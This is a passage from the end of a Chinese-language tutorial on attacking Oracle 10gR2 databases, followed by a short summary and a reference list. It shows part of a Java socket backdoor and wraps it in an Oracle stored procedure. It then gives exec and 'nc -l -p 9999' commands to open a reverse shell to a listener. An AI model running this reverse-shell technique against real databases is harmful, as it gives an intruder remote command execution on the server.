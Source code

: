 ```
                { 
                    s = "Please check your command!";
                } 

                PS.println(s);
           } 

            DIS.close();
            PS.close(); 
            Is.close(); 
            Os.close(); 
            socket.close();  
        } 
        catch(Exception e)
        { 
            System.out.println("Error:"+e); 
        } 
    } 


}

create or replace procedure myjavasocket(address in varchar,port in varchar) as language java  
name 'javasocket.test(java.lang.String,java.lang.String)';  

```

执行myjavasocket

```
exec myjavasocket('10.1.100.1','9999');

local: nc -l -p 9999

```

这样就可以得到了一个交互的shell了，不过有些不是exe文件的比如dir就得输入cmd.exe /c dir 来运行….

**0x6 总结**

其实这篇文章主要都是在讲10gr2，都是一些很老的东西，我也只是稍微的总结了一下，我现在更比较关注大牛们是怎么发现这些漏洞的， 这篇东西写了我差不多两周的时间，对oracle的了解从0到有了一点了解，从中学到了不少东西，本文参照了不少大牛的资料，再一次感谢和膜拜各位大牛

**0x7 参考文献**

[1] Hacking Oracle From Web 2 

[2] hacking Oracle From Web part2-2  

[3] HackingAurora  

[4] best of oracle security 2012  

[5] Integrigy Oracle SQL Injection Attacks  

[6] Oracle web环境注射技术
